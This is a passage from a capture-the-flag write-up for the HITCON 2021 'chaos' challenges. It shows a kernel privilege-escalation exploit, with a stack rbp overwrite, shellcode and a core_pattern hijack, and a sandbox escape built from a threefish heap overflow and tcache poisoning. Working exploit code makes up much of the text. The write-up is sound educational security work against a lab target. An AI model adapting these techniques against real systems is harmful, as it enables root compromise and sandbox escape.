The bug we found gives us an out of bounds write relative to the address of the command queue. The index is 64-bit so we can write to almost any address (bit 9 of the index is cleared before accessing the queue). We can write a 13-byte command descriptor containing predictable data.

```c
struct __attribute__((packed)) chaos_input_rb_desc {
  // Set by the driver, but predictable.
  uint16_t req_id;
  // Always 0
  uint16_t gap;
  // Always 1
  uint8_t unk;
  // Set by the driver, value between 0 and 0x100000
  uint32_t buffer_offset;
  // Always 28
  uint32_t buffer_size;
};
```

To get an idea of where our buffer could be and what could be around it we had a look at the kernel's documentation, which includes a [map of the kernel's address space on x86](https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt). The command queue is located in the CHAOS device memory, and the driver uses `devm_ioremap` to map that region into virtual memory. `ioremap` allocates virtual memory from the vmalloc region (`0xffffc90000000000-0xffffe90000000000` on x86_64), so the ring buffer will be somewhere in that region. After looking around in GDB for a while we noticed that the kernel stack of our process is also located there. This makes sense, because the kernel's stacks are also [allocated](https://elixir.bootlin.com/linux/latest/source/kernel/fork.c#L246) from the vmalloc region by default. However even more importantly it looked like the kernel's stack is at a constant, or at least predictable, offset from the command queue. This means that we should be able to reliably overwrite a specific value saved on the stack with contorlled data without needing any leaks.

There are many ways to exploit this. The target VM has no SMEP and no SMAP, which means that we can redirect any kernel data and code pointers to memory controlled by us in userspace. With some trial and error to figure out which offsets would overwrite what value, we found that offset `0x13b13b13b13ad88c` reliably overwrites a saved `rbp` on the kernel's stack. This value depends on what other `vmalloc` allocations the kernel did before running the exploit so it's somewhat specific to the setup we used but it works reliably. The overwrite clears the top 16 bits of the saved `rbp`, which redirects it to a userspace address. We can mmap this address and gain control of the kernel's stack as soon as the kernel executes a `leave` instruction. We then only have to fill the fake stack with a pointer to some shellcode.

```c
static void alloc_rbp(size_t offset) {
    uint64_t *rbp = mmap(0x00000003001cf000 + 0x040000000*offset, 0x1000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_ANON | MAP_PRIVATE, -1, 0);
    assert(rbp != MAP_FAILED);
    for (size_t i = 0; i < 0x1000 / 8; i++) {
        rbp[i] = &pwn_kernel;
    }
}
```

The shellcode is pretty simple: it reads the IA32_LSTAR, which contains the address of the system call handler, to recover address of the kernel and then overwrites `core_pattern` with the path to our exploit. It then executes `swapgs; sysret` to return to userspace. The exploit returns to userspace at an invalid address and crashes, which runs the core dump handler, which is now our exploit itself. The core dump handler runs as root, so our exploit can read the flag and print it to the serial console.

```x86asm
BITS 64
DEFAULT rel
global pwn_kernel

kernel_base equ 0xffffffff81000000
syscall_handler_off equ 0xffffffff81c00000 - kernel_base
core_pattern_off equ 0xffffffff82564060 - kernel_base

pwn_kernel:
    ; read IA32_LSTAR, which contains the address of the syscall handler
    mov ecx, 0xc0000082
    rdmsr
    shl rdx, 32
    or rax, rdx

    mov rbx, syscall_handler_off
    sub rax, rbx
    ; rbx = kernel base
    mov rbx, rax

    mov rax, core_pattern_off
    mov rcx, rbx
    ; rcx = core_pattern
    add rcx, rax

    ; overwrite core_pattern
    mov rbx, '|/home/c'
    mov [rcx], rbx
    mov rbx, 'haos/run'
    mov [rcx + 8], rbx
    xor ebx, ebx
    mov [rcx + 16], rbx

    ; return to userspace and crash
    xor ecx, ecx
    mov r11, 0x002
    swapgs
    sysret
```

```c
int main(int argc, char* argv[])
{
    if (getuid() == 0) {
        system("cat /flag > /dev/ttyS0");
        return 0;
    }
    /* ... */
}
```

Flag: `hitcon{so this is how we attack kernel from a device}`

## Part 3: Sandbox

### Analysis

The flag for part 3 is also a file outside the sandbox. However unlike in part 1, there is no system call that copies the flag into the CHAOS memory for us. The sandbox only opens the file that contains the third flag, but then doesn't do anything with it. Clearly this means that we must somehow pwn the sandbox and read the contents of the file somewhere into shared memory where our firmware can access them. As we mentioned before, the sandbox has some system calls that let the chip perform some cryptographic operations on data supplied by the firmware. More specifically, the sandbox implements the following:

* MD5
* SHA256
* AES encrypt/decrypt
* RC4 encrypt/decrypt
* Blowfish encrypt/decrypt
* Twofish encrypt/decrypt
* Threefish encrypt/decrypt

Except for MD5 and SHA256, all of these operations also need a key. The client can use the `add_key` and `delete_key` to add and remove keys from the sandbox's key storage. The key storage is implemented as a `std::map<uint32_t, struct buffer>`, which maps a key ID to the key data and is implemented using a search tree.

Now, except for MD5, SHA256 and RC4 all of the algorithms implemented in the sandbox are block ciphers, which take a fixed-size block of input and produce a block of output having the same size as the input. The block size is usually a fixed value chosen by the designers of the algorithm.

Consider now the function that implements Threefish encryption, which has a block size of 32 bytes:

```c
void threefish_encrypt(struct buffer *output, struct buffer *key, struct buffer *input)
{
  if (key->size != 32) {
      _exit(2);
  }

  size_t size = input->size;
  if ((size & 7) != 0 || size > 0x20) {
    _exit(2);
  }

  output->data = NULL;
  output->size = size;

  if ((unsigned int)(size - 1) > 0xFFFFF) {
    _exit(2);
  }

  uint8_t *out = new uint8_t[size];
  output->data = out;
  do_threefish_encrypt(key->data, key->size, input->data, out);
}
```

While the function checks that the size of the input is not bigger than the block size, it doesn't check that it's exactly equal to the block size. On top of that it allocates an output buffer whose size is the same as the size of the input, rather than a fixed-size buffer. This means that the encryption can write out of bounds if we pass it an input buffer that is smaller than 32 bytes. All block ciphers have this bug but it's only exploitable with threefish because it's the only cipher with a block size greater than 24 bytes, which is the smallest usable buffer returned by glibc's malloc. This bug gives us a 8-byte out of bounds read and an 8 byte out of bounds write on a heap chunk of size 24 (the input data is also assumed to be 32 bytes).

Ok, so we have a heap overflow and overread, how can we exploit this? Fortunately, if we do overflow, we do so directly into the size field of the next chunk. Therefore, our goal was to overflow the size field of a small chunk with a large size. However, there were a bunch of complications before achieving this.

The biggest issue we were facing, is the fact that both encryption and decryption do not (directly) allow for a controlled overflow. Encryption, of course, leads to mostly gibberish in the overflown area. Furthermore, since our input also has to be smaller than 32 bytes, part of the encryption input is from the next heap chunk! This also makes it nontrivial to get a controlled overflow with decryption, since we do not control part of the encrypted input, that will be decrypted.

The intended solution here, was to use crypto to your advantage and figure out a way, such that known but not controlled input also decrypts to something you wanted. However, we found a much easier approach, that did not involve pinging our crypto people on discord ;).

We first present the heap setup we want to have, then how we actually achieved that.
The basic setup we need, is the following, where the three separate parts of the heap, can be anywhere.




The sizes shown are the actual sizes used by malloc (so rounded up to the nearest 0x10).
Furthermore, except the sizes for the input / output chunks, the other sizes are not particularly specific.
However, we do need to have `sizeof(L) >> sizeof(S)`. The goal is to now roughly have the following happen [^1]:

```c
void* I_E = malloc(0x20);
void* O_E = malloc(0x20);
void* I_D = O_E;
void* O_D = malloc(0x20);
threefish_encrypt(I_E, O_E);
threefish_decrypt(I_D, O_D);
```

In particular, the purpose of the different chunks are as follows:

- $I_E$: input to the threefish encryption using overflow. The encryption will read the size of the next chunk $L$ oob, as the last 8 bytes of input.
- $O_E$ / $I_D$: output of the threefish encryption, but then also input of the threefish decryption. During encryption, the size of the next chunk will be overwritten. During decryption, the size of the next chunk will be read oob, as the last 8 bytes of input.
- $O_D$: output of the threefish decryption. The size of the next chunk will be overwritten, with the last 8 bytes of output.
- $L$: A large chunk. We will overwrite the size of $S$, with this size.
- $D$: A chunk that is never freed. Since we corrupt the size with the encryption, we do not want to free it, otherwise malloc is unhappy.
- $S$: A small chunk. Target for our overwrite.

This works out well, since we do not change the input of our encryption before decryption, the output of the decryption must be the same as our initial input. Since the initial input's last 8 bytes was a large size, the small size of $S$ will be overwritten with this large size. If we now allocate $S$, free it again, it will be in the tcache of a much larger size than it should be. We can then allocate a chunk of size $0x150$ and get back $S$. Then we have a fully controlled overflow of a much larger area of the heap.

This whole procedure is shown in the image below:



So our goal is now clear, we need the specific heap layout and allocations mentioned before.
But how do we get there?

There are two major pain points in trying to achieve this.
Firstly, the heap is not in a clean state when we start our exploit, since the firmware loading also uses the heap already.
Secondly, there are no good malloc and free primitives. To get the heap into a certain state, ideally we would be able to malloc and free arbitrary sizes. The best primitive we found, was the addition and removal of keys. While it allows us to malloc an arbitrarily sized chunk and free it later, it also has a major drawback. The malloc of the size we control, happens in between a `malloc(0x10)` and a `malloc(0x30)`. The former to act as a kind of wrapper around our malloc'd buffer, the latter as the node in a red-black-tree. This is the case, because the different keys are saved inside an `std::map`.

Astute readers will have noticed, that the wrapper struct is actually of the same size as our target buffers to overflow.
In fact, both of these pain points can help us out in certain ways.

We will now show the heap feng shui of our exploit, then explain why the different allocations work and how they help us towards our goal. But first, we explain the `do_malloc` and `do_free` functions. These correspond to adding and removing a key respectively. As such, a simplified view of these is basically:

```c
size_t do_malloc(size_t size) {
    void* buffer = malloc(0x10);
    void* key_buf = malloc(size);
    void* tree_node = malloc(0x30);
    size_t key_id = curr_id;
    curr_id++;
    keys[key_id] = (buffer, key_buf, tree_node);
}

void do_free(size_t key_idx) {
    (buffer, key_buf, tree_node) = keys[key_id];
    free(tree_node);
    free(key_buf);
    free(buffer);
}
```

Now our heap feng shui is written as:

```c
size_t first = do_malloc(0x80);

size_t inp_prepare = do_malloc(0x150);
size_t dont_free = do_malloc(0x70);
size_t small = do_malloc(0x50);

size_t reserved_for_later = do_malloc(0x80);
size_t reserved_for_later2 = do_malloc(0x80);

do_free(dont_free);
do_free(first);
size_t dont_free2 = do_malloc(0x70);
size_t dont_free_begin = do_malloc(0x90);
do_free(small);
do_free(dont_free_begin);
do_free(inp_prepare);
```

Since `do_malloc` first allocs a chunk of size 0x20, then our desired size, we can use it as a primitive for achieving the three parts of the heap we need, as long as the two mallocs happen from a contiguous region. Thankfully, the firmware was allocated as a large heap chunk and after freeing it, put in the unsorted bin. Therefore, as long as our allocation size's tcache is empty, the malloc happens contiguously from this unsorted bin. Hence, our chunks from before can be identified:

- $I_E$ ` = inp_prepare.buffer`
- $O_E$ / $I_D$ ` = dont_free.buffer = dont_free_begin.buffer`
- $O_D$ ` = small.buffer`
- $L$ ` = inp_prepare.key_buf`
- $D$ ` = dont_free.key_buf = dont_free2.key_buf`
- $S$ ` = small.key_buf`

This also explains the very first allocation. It is done to remove the single 0x20 chunk currently in the tcache.
`inp_prepare` then corresponds to our first heap part, the first input buffer and the large chunk.
`dont_free` corresponds to the second heap part, while `small` to the third.
Both `reserved_for_later` use a key_buf chunk on the tcache, while the tree_node will be allocated just after our small chunk.
This will be our target for overwriting with the controlled overflow later.

Finally, we have to do some freeing to get our tcache in the correct order. In the end, we would like the have the following tcache for 0x20:

```
head -> inp_prepare.buffer -> dont_free.buffer -> small.buffer
```

To this end, we first swap the buffer struct used for `dont_free` and `first`. Otherwise, we would have to free `dont_free.key_buf`, which we do not want! For that, we first free it temporarily, leading to the following tcache 0x20:

```
head -> first.buffer -> dont_free.buffer
```

Furthermore, `dont_free.key_buf` is the head of tcache 0x70. Therefore, `do_malloc(0x70)`, will use `first.buffer` as the buffer, and `dont_free.key_buf` as its key_buf. Since we never touch the result of this malloc (`dont_free2`) again, we can be safe that `dont_free.key_buf` (or as named above $D$) is never freed! Lastly, `dont_free_begin.buffer` now points to `dont_free.buffer` and hence the last three frees achieve exactly the tcache layout we want.

Therefore, the next part of our exploit looks as follows:

```c
res = do_crypto(THREEFISH_ENC, random_data, 24, test_key_idx);
if (res < 0) {
    puts("enc failed");
}

memcpy(temp_crypt, crypt_result, 24);

size_t rid_of_inp = do_malloc(0x140);

res = do_crypto(THREEFISH_DEC, temp_crypt, 24, test_key_idx);

if (res < 0) {
    puts("dec failed");
}

puts("smashed size!");
```

First we encrypt. This will use the first entry in the tcache as input, the second as output. Then we make sure to remove the first entry in the tcache. Next we decrypt, and again first entry in tcache is input (previously of course our output), the second as output. This all leads to our desired goal, of smashing the size of `small.key_buf` with `0x160`.

We now malloc and free `small.key_buf`, to put it onto the correct tcache:

```c
size_t small_smashed = do_malloc(0x50);
do_free(small_smashed);
```

The next time we add a key of size `0x150`, we will overflow `small.key_buf` by a lot!
We now free the chunks reserved for later:

```c
do_free(reserved_for_later2);
do_free(reserved_for_later);
```

This will now do the following for the tcache of size 0x40 (remember those chunk's tree_node were allocated after `small.key_buf`):

```
head -> reserved_for_later.tree_node -> reserved_for_later2.tree_node -> ...
```

When we now overflow `small.key_buf`, we can set `fd` of the chunks that are in tcache.
Due to the way the allocations work, we need to create some fake chunks first, which we point to.
The fake chunks are created as follows inside dram:

```c
puts("Creating fake chunks");

uint64_t* fake_chunk = dram + 0x20000;
uint64_t* fake_chunk2 = dram + 0x20080;
fake_chunk[-1] = 0x41;
fake_chunk[0] = fake_chunk2;
fake_chunk[1] = 0;

fake_chunk2[-1] = 0x41;
// this is the address we actually wanna overwrite
fake_chunk2[0] = fd_addr;
fake_chunk2[1] = 0;

uint64_t* fake_chunk4 = dram + 0x20100;
fake_chunk4[-1] = 0x21;
fake_chunk4[0] = 0;
fake_chunk4[1] = 0;

uint64_t* fake_chunk3 = dram + 0x20180;
fake_chunk3[-1] = 0x21;
fake_chunk3[0] = fake_chunk4;
fake_chunk3[1] = 0;
```

Now we can finally overflow:

```c
puts("smashing actual chunks");

memset(overwrite, 'A', sizeof(overwrite));

uint64_t* over = &overwrite[0];

// Due to the free of the reserved_for_later chunks
// We also need to fixup these buffer chunks on the heap.
over[31] = 0x21;
over[32] = fake_chunk3;
over[33] = 0;
// This is our actual target!
over[23] = 0x41;
over[24] = fake_chunk;
over[25] = 0;

size_t my_key = add_key(overwrite, sizeof(overwrite));
```

The tcache for 0x20 and 0x40 now looks as follows:

```c
head[0x20] -> reserver_for_later.buffer -> fake_chunk3 -> fake_chunk4
head[0x40] -> fake_chunk -> fake_chunk2 -> fd_addr // location of flag1 file descriptor
```

Hence, if we create two keys of length 0x30, the second key allocation will be overwriting fd_addr, allowing us to change the file descriptor from flag1 to the one for flag3. Then we can just reuse our exploit for the first flag:

```c
uint32_t* fd_over = &fd_overwrite[0];
// remote:
*fd_over = 1;
// local:
// *fd_over = 4;
size_t fd_key = add_key(fd_overwrite, 0x30);
size_t fd_key2 = add_key(fd_overwrite, 0x30);

puts("Read flag");

while (true) {
    syscall1(0xC89FC, dram);

    printf("flag: %s\n", dram);

    for (int i = 0x100; i < 0x50000; i += 0x100) {
        memcpy(dram + i, dram, 0x100);
    }
}
```

[^1]: Note that the mallocs will actually happen at different times, this is just to illustrate the basic idea.

Flag: `hitcon{threefishes~sandbox~esacape}`

## Conclusion

Thanks to david942j and lyc for putting together this series of challenges, they were really fun to solve. You can find the source code for the challenges together with the official solution [on github](https://github.com/david942j/hitcon-2021-chaos). Until next time!
